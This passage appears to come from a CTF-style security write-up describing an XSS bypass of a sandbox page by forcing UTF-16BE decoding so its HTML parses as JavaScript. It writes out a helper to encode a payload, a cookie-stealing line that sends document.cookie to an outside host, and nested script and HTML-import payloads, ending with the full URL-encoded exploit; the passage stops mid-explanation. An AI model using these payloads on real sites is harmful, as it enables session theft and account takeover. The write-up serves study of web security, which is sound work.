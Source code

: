 If we were to load the page as utf16 big endien (specified as `utf-16be`), beginning turns
into:

```javascript
㰡摯捴祰攠䡔䵌㸊㱳捲楰琠獲挽獡湩瑩穥㸊㰯獣物灴㸊㱢潤社
```

To prevent this from causing an error, we can append `=0\n`. Now we can also append our
own cookie stealing payload and encode it as `utf-16be` and urlencode (for normal
characters in `utf-16be`, the character is prepended by a null byte): 

```javascript
utf16be = function(s) {
  var out = '';
  for (var i=0; i<s.length; i++) {
    out += '\0' + s[i];
  }
  return out;
}
payload = encodeURIComponent(utf16be('=0\nlocation="//itszn.com/"+document.cookie'));
```

We can load it like this:

```html
<script src="/sandbox?html=%00%3D%000%00%0A%00l%00o%00c%00a%00t%00i%00o%00n%00%3D%00%22%00%2F%00%2F%00i%00t%00s%00z%00n%00.%00c%00o%00m%00%2F%00%22%00%2B%00d%00o%00c%00u%00m%00e%00n%00t%00.%00c%00o%00o%00k%00i%00e" charset="utf-16be"></script>
```

The script that is run is this:

```javscript
㰡摯捴祰攠䡔䵌㸊㱳捲楰琠獲挽獡湩瑩穥㸊㰯獣物灴㸊㱢潤社=0
location="//itszn.com"+document.cookie
```

### Putting it all together

Now we can put that script into the import like we did before, and we should be good to go:

```javascript
payload = encodeURIComponent(utf16be('=0\nlocation="//itszn.com/"+document.cookie'));
payload = encodeURIComponent('<script src="/sandbox?html='+payload+'" charset="utf-16be"></script>');
payload = '<link rel="import"><link rel="import" href="/sandbox?html='+payload+'">'
```

This gives us the final long payload

```html
<link rel="import"><link rel="import" href="/sandbox?html=%3Cscript%20src%3D%22%2Fsandbox%3Fhtml%3D%2500%253D%25000%2500%250A%2500l%2500o%2500c%2500a%2500t%2500i%2500o%2500n%2500%253D%2500%2522%2500%252F%2500%252F%2500i%2500t%2500s%2500z%2500n%2500.%2500c%2500o%2500m%2500%252F%2500%2522%2500%252B%2500d%2500o%2500c%2500u%2500m%2500e%2500n%2500t%2500.%2500c%2500o%2500o%2500k%2500i%2500e%22%3E%3C%2Fscript%3E">
```

However, if we try this, we find there is still one problem!

